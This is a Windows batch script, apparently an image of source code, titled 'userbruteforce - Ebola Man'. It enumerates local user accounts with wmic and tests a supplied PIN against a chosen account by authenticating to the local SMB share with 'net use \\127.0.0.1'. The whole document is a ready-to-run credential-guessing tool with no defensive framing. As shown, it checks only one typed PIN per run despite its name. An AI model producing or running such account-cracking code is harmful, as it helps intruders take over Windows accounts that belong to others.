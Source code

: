 @echo off
title userbruteforce - Ebola Man
setlocal enabledelayedexpansion
chcp 65001 >nul
:start
cls
set error=-
color F
set user=""
echo.
echo      ___.                 __          _____                           
echo      \_ ^|_________ __ ___/  ^|_  _____/ ____\___________   ____  ____  
echo       ^| __ \_  __ \  ^|  \   __\/ __ \   __\/  _ \_  __ \_/ ___\/ __ \ 
echo       ^| \_\ \  ^| \/  ^|  /^|  ^| \  ___/^|  ^| (  ^<_^> )  ^| \/\  \__\  ___/ 
echo       ^|___  /__^|  ^|____/ ^|__^|  \___  ^>__^|  \____/^|__^|    \___  ^>___  ^>
echo           \/                       \/                        \/    \/ 
echo.
echo    ╔════════════════════╗
echo    ║  COMMANDS:         ║
echo    ║                    ║
echo    ║  1. List Users     ║
echo    ║  2. Bruteforce     ║
echo    ║  3. Exit           ║
echo    ╚════════════════════╝
:input
set /p "=>> " <nul
choice /c 123 >nul

if /I "%errorlevel%" EQU "1" (
  echo.
  echo.
  wmic useraccount where "localaccount='true'" get name,sid,status
  goto input
)

if /I "%errorlevel%" EQU "2" (
  goto bruteforce
)

if /I "%errorlevel%" EQU "3" (
  exit
)

:bruteforce
set /a count=1
echo.
echo.
echo [TARGET USER]
set /p user=">> "
echo.
echo [PIN]
set /p pin=">> "
net user %user% >nul 2>&1
if /I "%errorlevel%" NEQ "0" (
  echo.
  echo [91m[%error%][0m [97mUser doesn't exist[0m
  pause >nul
  goto start
)
net use \\127.0.0.1 /d /y >nul 2>&1
echo.
echo [ATTEMPT %count%] [%pin%]
call :varset
echo.
echo [91m[%error%][0m [97mPIN not found[0m
pause >nul
goto start

:success
echo.
echo [92m[+][0m [97mPIN found: %pin%[0m
net use \\127.0.0.1 /d /y >nul 2>&1
set user=
set pin=
echo.
pause >nul
goto start

:varset
net use \\127.0.0.1 /user:%user% %pin% >nul 2>&1
if /I "%errorlevel%" EQU "0" goto success
net use | find "\\127.0.0.1" >nul
if /I "%errorlevel%" EQU "0" goto success
set /a count=%count%+1
goto :eof

goto start
 
